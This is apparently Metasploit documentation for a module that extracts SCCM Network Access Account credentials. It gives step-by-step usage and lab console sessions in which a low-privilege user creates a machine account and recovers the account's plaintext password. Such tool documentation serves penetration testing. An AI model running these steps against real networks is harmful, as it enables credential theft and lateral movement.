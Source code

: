 ## NAA Credential Exploitation

The NAA account is used by some SCCM configurations in the policy deployment process. It does not require many privileges, but 
in practice is often misconfigured to have excessive privileges.

The account can be retrieved in various ways, many requiring local administrative privileges on an existing host. However,
it can also be requested by an existing computer account, which by default most user accounts are able to create.


## Module usage
The `admin/dcerpc/samr_computer` module is generally used to first create a computer account, which requires no permissions:

1. From msfconsole
2. Do: `use auxiliary/admin/dcerpc/samr_account`
3. Set the `RHOSTS`, `SMBUser` and `SMBPass` options
   a. For the `ADD_COMPUTER` action, if you don't specify `ACCOUNT_NAME` or `ACCOUNT_PASSWORD` - one will be generated automatically
   b. For the `DELETE_ACCOUNT` action, set the `ACCOUNT_NAME` option
   c. For the `LOOKUP_ACCOUNT` action, set the `ACCOUNT_NAME` option
4. Run the module and see that a new machine account was added

Then the `auxiliary/admin/sccm/get_naa_credentials` module can be used:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `RHOST` value to a target domain controller (if LDAP autodiscovery is used)
3. Set the `USERNAME` and `PASSWORD` information to a domain account
4. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
5. Run the module to obtain the NAA credentials, if present.

Alternatively, if the Management Point and Site Code are known, the module can be used without autodiscovery:

1. `use auxiliary/admin/sccm/get_naa_credentials`
2. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
3. Set the `MANAGEMENT_POINT` and `SITE_CODE` to the known values.
4. Run the module to obtain the NAA credentials, if present.

The management point and site code can be retrieved using the `auxiliary/gather/ldap_query` module, using the `ENUM_SCCM_MANAGEMENT_POINTS` action.

See the Scenarios for a more detailed walk through

## Options

### RHOST, USERNAME, PASSWORD, DOMAIN, SESSION, RHOST
Options used to authenticate to the Domain Controller's LDAP service for SCCM autodiscovery.

### COMPUTER_USER, COMPUTER_PASSWORD

Credentials for a computer account (may be created with the `samr_account` module). If you've retrieved the NTLM hash of
a computer account, you can use that for COMPUTER_PASSWORD.

### MANAGEMENT_POINT
The SCCM server.

### SITE_CODE
The Site Code of the management point.

## Scenarios
In the following example the user `ssccm.lab\eve` is a low-privilege user.

### Creating computer account

```
msf auxiliary(admin/dcerpc/samr_account) > run rhost=192.168.33.10 domain=sccm.lab username=eve password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:445 - Adding computer
[+] 192.168.33.10:445 - Successfully created sccm.lab\DESKTOP-2KVDWNZ3$
[+] 192.168.33.10:445 -   Password: pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[+] 192.168.33.10:445 -   SID:      S-1-5-21-3875312677-2561575051-1173664991-1128
[*] Auxiliary module execution completed
```

### Running with Autodiscovery
Using the credentials just obtained with the `samr_account` module.

```
msf auxiliary(admin/sccm/get_naa_credentials) > options

Module options (auxiliary/admin/sccm/get_naa_credentials):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COMPUTER_PASS                      yes       The password of the provided computer account
   COMPUTER_USER                      yes       The username of a computer account
   MANAGEMENT_POINT                   no        The management point (SCCM server) to use
   SITE_CODE                          no        The site code to use on the management point
   SSL               false            no        Enable SSL on the LDAP connection
   VHOST                              no        HTTP server virtual host


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        The domain to authenticate to
   PASSWORD                   no        The password to authenticate with
   RHOSTS                     no        The domain controller (for autodiscovery). Not required if providing a management point and site code
   RPORT     389              no        The LDAP port of the domain controller (for autodiscovery). Not required if providing a management point and site code (TCP)
   USERNAME                   no        The username to authenticate with


View the full module info with the info, or info -d command.
msf auxiliary(admin/sccm/get_naa_credentials) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[*] Running module against 192.168.33.10

[*] Discovering base DN automatically
[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
[+] Found Management Point: MECM.sccm.lab (Site code: P01)
[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```

### Manual discovery

```
msf auxiliary(gather/ldap_query) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
CN=SMS-MP-P01-MECM.SCCM.LAB,CN=System Management,CN=System,DC=sccm,DC=lab
=========================================================================

 Name           Attributes
 ----           ----------
 cn             SMS-MP-P01-MECM.SCCM.LAB
 dnshostname    MECM.sccm.lab
 mssmssitecode  P01

[*] Query returned 1 result.
[*] Auxiliary module execution completed

msf auxiliary(gather/ldap_query) > use auxiliary/admin/sccm/get_naa_credentials

msf auxiliary(admin/sccm/get_naa_credentials) > run computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj management_point=MECM.sccm.lab site_code=P01

[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA credentials: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```
